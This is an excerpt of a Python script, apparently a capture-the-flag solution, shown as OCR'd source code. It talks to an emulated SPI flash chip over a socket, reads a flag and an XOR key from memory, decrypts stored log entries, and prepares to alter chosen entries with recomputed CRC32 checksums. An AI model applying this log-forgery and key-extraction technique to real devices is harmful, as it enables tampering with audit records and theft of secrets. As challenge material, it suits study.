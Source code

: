 ```python
        data = b''
        while True:
            data += s.recv(1024)
            if data.endswith(b']'):
                break
                
        response = json.loads(data.decode('utf-8'))
        #print(f"Received: {response}")
    return response

def write_pages(pages):
    for page_no in range(0, len(pages)):
        # Craft packet
        address = [0x00, page_no, 0x00]
        data = pages[page_no]
        packet = [PAGE_PROGRAM] + address + data      
        exchange([WRITE_ENABLE])
        exchange(packet)

def get_flag():
    FLAG = exchange([READ] + FLAG_ADDRESS, 256)
    # Convert the list of characters back to their ASCII values
    FLAG = [chr(char) for char in FLAG if char < 255]
    return ''.join(FLAG)

def print_logs(logs):
    for i in range(0,len(logs)):
        log = logs[i]
        data = ' '.join(f'{number:02x}' for number in log)
        print(data)
     
def xor_logs(logs):
    for log in logs:
        for i in range(0, len(log)-4):
            key_chr = key[i % KEY_SIZE]
            log[i] = log[i] ^ key_chr

def append_crc(data):
    # Calculate CRC32 of the data and return it as unsigned int
    crc = binascii.crc32(data) & 0xffffffff
    # Append CRC32 to the data
    return data + struct.pack('I', crc)

# Read Logs
# [0x03, 0x00, 0x00, 0x00]: Data to send to memory
# 4096: Numbe of bytes to read back
logs = exchange([0x03, 0x00, 0x00, 0x00], 4096)

# Split the list every 16 characters
log_enties = [logs[i:i+16] for i in range(0, len(logs), 16)]

  
key = exchange([0x48, 0x00, 0x10, 0x52, 0x00], KEY_SIZE)
print('key', key)

print('Decrypt logs..')
log_enties = log_enties[:total_log_entries]
saved_logs = copy.deepcopy(log_enties)

# Focus only on the logs we want to change
change_logs = log_enties[-log_entries_to_update:] 

sample_entry = copy.deepcopy(log_enties[0])
```
